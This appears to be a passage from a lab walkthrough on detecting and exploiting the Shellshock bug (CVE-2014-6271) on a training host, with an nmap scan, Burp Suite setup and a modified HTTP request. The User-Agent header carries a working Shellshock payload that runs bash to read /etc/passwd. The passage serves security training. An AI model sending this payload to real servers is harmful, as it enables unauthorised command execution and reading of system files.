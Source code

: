 ### 🎯 **Phase 3: Vulnerability Detection**

```bash
# Step 4: Shellshock vulnerability scan
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local

# Expected Vulnerable Output:
PORT   STATE SERVICE
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs: CVE:CVE-2014-6271
|     This web application might be affected by the vulnerability known
|     as Shellshock. It seems the server is executing commands injected
|     via malicious HTTP headers.
```

### ⚡ **Phase 4: Exploitation via Burp Suite**

#### **Step 5: Burp Suite Configuration**
```bash
# Browser Setup:
# 1. Firefox → Extensions → FoxyProxy
# 2. Select "Burp Suite" profile
# 3. Verify proxy: 127.0.0.1:8080

# Burp Suite Setup:
# 1. Proxy → Intercept → "Intercept is on"
# 2. Navigate to: http://demo.ine.local
# 3. Reload page to capture /gettime.cgi request
```

#### **Step 6: Request Interception and Manipulation**
```bash
# Original intercepted request:
GET /gettime.cgi HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://demo.ine.local/

# Modified request with Shellshock payload:
GET /gettime.cgi HTTP/1.1
Host: demo.ine.local
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://demo.ine.local/
```
